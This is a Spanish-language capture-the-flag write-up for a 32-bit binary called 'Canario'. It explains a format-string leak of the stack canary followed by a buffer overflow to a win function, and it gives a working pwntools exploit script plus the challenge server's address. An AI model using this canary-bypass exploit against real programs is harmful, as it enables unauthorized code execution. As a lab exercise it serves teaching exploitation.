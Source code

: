 # Canario
También llamado como mi nuevo pajarito.

Nos encontramos ante un binario de 32 bits, little endian, sin PIE, pero a diferencia de los otros retos, con canario.

## Explicación de la solución

Primero tendremos que rutilzar la vulnerabilidad format string para leakear memoria ((aqui más info de la vulnerabilidad)[https://ctf101.org/binary-exploitation/what-is-a-format-string-vulnerability/]),
obtener el canario utilizando esta vulnerabilidad, llenar el buffer, reescribir el canario con su mismo valor y ya proceder a hacer el ret2win.
Aquí se deja el payload de python3 que se puede utilizar para resolver el reto.

```python
from pwn import *

p = process('./canario')

log.info(p.clean())
p.sendline('%23$p')     # Imprimimos el canario (Mirar post de abajo)
p.recvline()
canary = int(p.recvline(), 16)  # Guardamos el canario en una variable
log.success(f'Canary: {hex(canary)}')

payload = b'A' * 33     # Llenamos el buffer
payload += p32(canary)  # Escribimos el canario original para que no salte la alarma
payload += b'A' * 12    # Escribimos el padding al return pointer
payload += p32(0x08049275)  # Dirección de la función con la flag

print(p.clean())
p.sendline(payload)
print(p.clean().decode('latin-1'))
```

En (este post)[https://ir0nstone.gitbook.io/notes/types/stack/canaries] se explica mas detalladamente como se realiza el procedimiento para obtener esos valores, los cuales se deberán modificar para que sea acorde a nuestro programa. Todo está internet, solo hay que saber leer e interpretar :p

Para explotar el binario, se debería cambiar la línea `p = process('./canario')` por `p = connection("51.77.214.160", 31337)` y además realizar pequeñas modificaciones en las lineas que recibes y envías, pues por como está desplegado el reto las lineas que tu envías se vuelven a recibir.

Espero que hayais aprendido que es un canario, nos vemos pronto.
¡Happy hacking!
